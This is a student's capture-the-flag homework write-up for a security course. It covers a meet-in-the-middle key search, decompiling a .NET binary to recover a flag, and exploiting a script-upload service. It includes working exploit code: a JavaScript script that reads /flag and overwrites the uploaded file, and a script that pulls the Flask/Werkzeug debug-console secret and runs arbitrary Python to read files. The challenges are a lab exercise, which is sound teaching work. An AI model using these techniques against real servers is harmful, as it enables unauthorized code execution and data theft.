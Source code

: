 # Computer Security: Hw0 Writeup
## Let's meet in class
To find the four unknown keys, the naive approach is to use 4 nested loops with complexity $O(10^{12})$. But with **meet in the middle** approach, we can reduce it to $O(10^{6})$.

1. Calculate all possibilities of ```XOR(key[0], key[1])```, and use these values as keys in a dictionary. This process has complexity of $O(10^{6})$.

```Dict[XOR(key[0], key[1])] = Pair(key[0], key[1])```

2. Calculate all possibilities of ```XOR(hint, key[2], key[3])``` and check if the dictionary has this value as a key. This process also has complexity of $O(10^{6})$. If the key exists, we have found the four unknown keys.

3. Rebuild our flag by doing ```enc * inverse_modulo(key[0] * key[1] * key[2] * key[3]) % p```.

## Welcome
By opening the executable file in an editor, we discover that the redacted flag is inside.

path: imgs/welcome_redacted.png
![](imgs/welcome_redacted.png)

According to Dockerfile, the executable is at the location : ```/home/chal/chal```, which is the file we will open.
We set the offset to 10000 to get closer to our target, and start reading from the file and writing to output repeatedly. The flag shows up in the output.

path: imgs/welcome_flag.png
![](imgs/welcome_flag.png)

## Nine Revenge
1. Use ```file``` command to discover it is a .NET executable
2. Use the 32 bit version of dnSpy(.NET debugger) to decompile the executable to search the original code for the flag.

path: imgs/Nine_revenge.png
![](imgs/Nine_revenge.png)

Then, we alter the string above:
- remove all substrings “pui” and the first character
- decode it from base 64
- xor each byte with 135 to get the original flag.

``` python=
import base64

flag = "wcvGwPzT7+LY9PPo6eLY7vTY6ejz2OH15uDu6+LY5un+6uj14qmpqfo="
flag = base64.b64decode(flag)
flag_arr = bytearray(flag)
new_flag = ""
for b in flag:
    b ^= 135
    new_flag += chr(b)

print(new_flag)
```

## Pyscript

The file with path ```_FILES[“file”][“tmp_name”]``` will be executed first with nodejs, and then with python3.

1. Use javascript to read and print the flag.
2. Use javascript to overwrite ```_FILES[“file”][“tmp_name”]``` with a new python3 script that also reads and prints the flag.

This would allow us to execute two different scripts for nodejs and python3.

**script:**
``` javascript=
var fs = require('fs')
var path = require('path')
var filepath = path.join(__dirname, path.basename(__filename))

var flagfile = '/flag'
var flag = fs.readFileSync(flagfile, {encoding:'utf8', flag:'r'})
flag = flag.toString()
process.stdout.write(flag)

const content = `
s = ""
with open('/flag') as f:
    s += f.readline()
s.strip()
print(s, end='')
`

fs.writeFileSync(filepath, content, {encoding:'utf8', flag:'w'})
```
3. Use : ```curl -F file=@script https://pyscript.ctf.zoolab.org``` to get the flag.

## Pyscript_UnderDevelopment

Flask's debug mode is enabled and PIN is turned off:
`````` dockerfile=
ENV FLASK_DEBUG=true
ENV WERKZEUG_DEBUG_PIN=off
``````
Without a debug PIN, flask's debug console allows us to execute any python code by including the given secret string in our get request. We can exploit this to read flag2 from the flask service.

``` javascript=
var http = require('http')

port = 5000
var secret = ""
var fs = require('fs')
var flag2 = ""

const regex = /SECRET = ".{20}"/
http.get(`http://flask:${port}/console`, res => {
    res.on('data', d => {
        d = d.toString();
        const found = d.match(regex);
        secret = found[0].substring(10, 30);
        http.get(`http://flask:${port}/console?__debugger__=yes&cmd=print(open(%27%2Fflag%27).readline())&frm=0&s=${secret}`, res => {
            res.on('data', d => {
                d = d.toString();
                flag2 = d.split('\n')[1];
            });
        });
    });
})

```

We try guessing flag2 byte by byte since we can't pass the if condition in PHP. If ```guessed_char == flag2[index]```, then we do as in [Pyscript](#pyscript) and read flag1 with javascript and python. Based on this, we can use the returned string to check if our guess is correct: we get `'Here is your Flag: FLAG{w3lc0m3_t0_th3_w0r1d_0f_CTF!}'` on a successful guess and `Failed :(` on an incorrect guess). It takes at most `128 * flag2_length` queries to guess flag2.